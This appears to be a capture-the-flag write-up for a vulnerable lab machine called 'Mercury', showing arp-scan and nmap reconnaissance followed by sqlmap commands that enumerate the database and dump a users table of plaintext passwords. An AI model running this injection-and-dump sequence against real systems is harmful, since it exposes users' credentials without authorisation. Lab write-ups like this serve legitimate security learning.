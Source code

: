 I scan my network with:
````
sudo arp-scan -I eth1 -l
````
And the we run a nmap:
  ````
sudo nmap -sT <ip>
````
the results:
````
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

````
I also got this: /mercuryfacts/1/ by navigating into the website.
It looks like a query for facts to mercury. I ran sqlmap to check this:

````
sqlmap -u http://IP:8080/mercuryfacts/1 --dbs 
````
from this I got
````
[INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

````

Then I checked for the tables inside mercury DB

````
sqlmap -u http://IP/mercuryfacts/1 -D mercury --tables  
````
````
Database: mercury
[2 tables]
+-------+
| facts |
| users |
+-------+
````
And by dumping the content of the table users I got:
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --columns
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+


````
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --dump   
````
````
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
````
